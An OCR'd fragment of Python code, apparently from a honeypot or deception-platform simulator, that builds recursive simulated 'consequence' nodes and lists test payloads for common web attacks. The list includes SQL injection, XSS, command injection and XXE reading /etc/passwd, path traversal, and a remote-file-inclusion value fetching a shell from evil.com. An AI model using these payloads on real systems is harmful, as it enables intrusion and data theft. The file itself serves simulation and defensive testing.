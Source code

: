    # 6. Threat intel enrichment (mocked)
    if depth >= 4:
        node["intel"] = {"asn": "AS12345", "geo": "US", "attck": "T1110"}

    # 7. Adaptive dialog
    if depth >= 5:
        node["dialog"] = random.choice(["slow", "error", "typo"])

    # 8. Sandbox detonation
    if depth >= 6:
        node["sandbox"] = "payload captured (simulated)"

    # 9. Policy envelope
    if depth >= 7:
        node["policy"] = {"outbound": "deny", "allow_cmds": ["ls","cat","whoami"]}

    # 10. Sales/demo packaging
    if depth >= 8:
        node["kpi"] = {"engagement_time": random.randint(1,300), "persona_shifts": depth}

    # Recurse until max depth
    if depth < 9:
        node["child"] = consequence(depth+1, svc, action, payload)
    return node

# --------------------------
# Vulnerability Simulation Payloads
# --------------------------
def vuln_sims():
    return [
        ("SQL Injection", "http", "GET /login", "admin' OR '1'='1 --"),
        ("XSS", "http", "GET /search", "<script>alert('xss')</script>"),
        ("Command Injection", "http", "POST /ping", "127.0.0.1; cat /etc/passwd"),
        ("Path Traversal", "http", "GET /download", "../../../../etc/passwd"),
        ("Buffer Overflow", "ssh", "login attempt", "A"*1024),
        ("Unicode Bypass", "http", "GET /login", "%u0027admin%u0027"),
        ("LFI", "http", "GET /index.php?page=", "../../../../../etc/passwd"),
        ("RFI", "http", "GET /index.php?page=", "http://evil.com/shell.txt"),
        ("XXE", "http", "POST /xml", """<?xml version="1.0"?><!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&xxe;</foo>"""),
        ("CSRF", "http", "GET /transfer", "<img src='http://target/transfer?amount=1000&to=attacker'>"),
    ]
